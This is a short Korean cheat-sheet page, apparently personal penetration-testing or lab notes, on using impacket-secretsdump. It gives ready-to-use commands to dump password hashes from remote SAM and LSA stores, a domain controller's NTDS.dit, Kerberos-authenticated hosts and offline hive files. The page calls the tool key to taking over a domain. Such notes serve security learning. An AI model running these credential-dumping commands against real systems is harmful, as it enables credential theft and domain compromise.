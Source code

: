 ```yaml
---
layout: page
title: secretsdump
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


### **크리덴셜 덤프 및 파일 공유 (Credential Dumping & File Sharing)**

- **목적:** 원격 시스템의 SAM, LSA Secrets, NTDS.dit 등에서 모든 종류의 크리덴셜을 덤프합니다.
- **특징:** 도메인 장악의 핵심 도구입니다.
```bash
# 원격 시스템의 모든 해시 덤프 (SAM, LSA, cached)
impacket-secretsdump <domain>/<user>:<password>@$target

# 도메인 컨트롤러의 NTDS.dit 덤프
impacket-secretsdump <domain>/<DA_user>:<password>@<DC_IP> -just-dc-ntlm

# GetST로 캐시 생성 후
impacket-secretsdump -k -no-pass HayStack.thm.corp

# ntds.dit, SYSTEM, SAM 파일 획득한 경우
impacket-secretsdump -ntds ntds.dit -sam sam -system system local
```

